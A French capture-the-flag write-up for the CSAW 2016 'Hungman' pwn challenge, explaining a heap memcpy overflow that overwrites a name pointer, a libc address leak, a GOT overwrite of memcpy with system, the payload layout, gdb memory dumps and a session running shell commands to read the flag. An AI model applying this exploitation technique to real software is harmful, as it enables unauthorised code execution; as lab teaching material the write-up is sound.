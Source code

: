 #Hungman

Pas si simple ce challenge.
Toute se passe dans la boucle
```C
      puts("High score! change name?");
      __isoc99_scanf(" %c", &v3);
      if ( v3 == 121 )
      {
        s = malloc(0xF8uLL);
        memset(s, 0, 0xF8uLL);
        v8 = read(0, s, 0xF8uLL);
        *(_DWORD *)(nom + 4) = v8;
        v14 = strchr((const char *)s, 10);
        if ( v14 )
          *v14 = 0;
        memcpy(*(void **)(nom + 8), s, v8); // ecrasement de nom: nom+0 = score, nom + 4 
        free(s);
      }
```

De la fonction jouant la partie. Le memcpy permet d'écraser l'association High score et nom.
En gros en mémoire on a successivement:

```
s:[buffer contenant le nom] nom:[[Hight score et longueur nom][pointeur vers le nom]]
```
Lorsque l'on copies sur nom plus 8 la première fois, on peut écraser nom + 8
et donc le pointeur vers le nom.

* La première fois on se contente de pointer vers __libc_start_main ce qui permet
d'avoir l'adresse de base de la libc et donc de récupérercelle de system. On met le HScore
à 0 pour être sur de gagner

* La deuxième fois, nom pointe vers  __libc_start_main
```
(gdb) x/gx 0x602068
0x602068 <__libc_start_main@got.plt>:	0x00007ffff7a52a50
(gdb) x/gx 0x602070
0x602070 <__gmon_start__@got.plt>:	0x00000000004008b6
(gdb) x/gx 0x602078
0x602078 <memcpy@got.plt>:	0x00007ffff7ac3020
(gdb) x/gx 0x602080
0x602080 <malloc@got.plt>:	0x00000000004008d6
0x602088 <setvbuf@got.plt>:	0x00007ffff7a9d0a0
```

on va écraser memcpy@got.plt par l'adresse de system, la fois suivante, la chaine pointée par
non+8 (donc en __libc_start_main@got.plt) sera executée par system. Il faut donc mettre une
commande en  __libc_start_main@got.plt et écraser memcpy@got.plt. Se faisant on modifiera
malloc@got.plt ce qui fera planter le programme. Il faut donc aller encore plus loin
jusqu'à setvbuf. Cela conduit à un nom de la forme

```
CMD+"\x00"+"D"*(15-len(CMD))+adr_to_str32(SYSTEM)+adr_to_str32(MALLOC)
```
Il faut donc gagner 3 fois de suite. Cela se fait en envoyant successivement les lettres
de l'alphabet.

Bizarrement le /bin/sh n'est pas interactif, les commandes sont envoyées directement:

Voilà la session obtenue:

```
francois@athos:~/BFF/beers4flags/writeups/csaw2016/pwn/Hungman$ python jeu-final.py 1 ls
START= 00007efe859a5740
SYSTEM= 00007efe859ca380
flag.txt
hungman

Highest player: ls score: 142
Continue? 
francois@athos:~/BFF/beers4flags/writeups/csaw2016/pwn/Hungman$ python jeu-final.py 1 'cat flag.txt'
START= 00007fab020ff740
SYSTEM= 00007fab02124380
flag{this_looks_like_its_a_well_hungman}

Highest player: cat flag.txt score: 70
Continue? 
francois@athos:~/BFF/beers4flags/writeups/csaw2016/pwn/Hungman$ 
```
